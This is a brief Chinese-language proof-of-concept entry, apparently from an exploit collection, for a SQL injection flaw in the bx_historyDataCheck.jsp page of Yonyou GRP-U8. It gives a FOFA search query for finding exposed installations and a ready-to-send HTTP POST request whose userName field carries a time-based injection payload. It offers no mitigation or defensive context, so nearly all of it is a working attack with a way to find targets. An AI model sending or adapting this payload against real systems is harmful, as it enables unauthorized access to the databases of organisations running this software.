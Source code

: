 ## 用友 GRP-U8 bx_historyDataCheck.jsp SQL注入漏洞

## fofa-qeury
app="yonyou-GRP-U8"

## POC
```
POST /u8qx/bx_historyDataCheck.jsp HTTP/1.1
Host: 
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
userName=';WAITFOR DELAY '0:0:5'--&ysnd=&historyFlag=
```
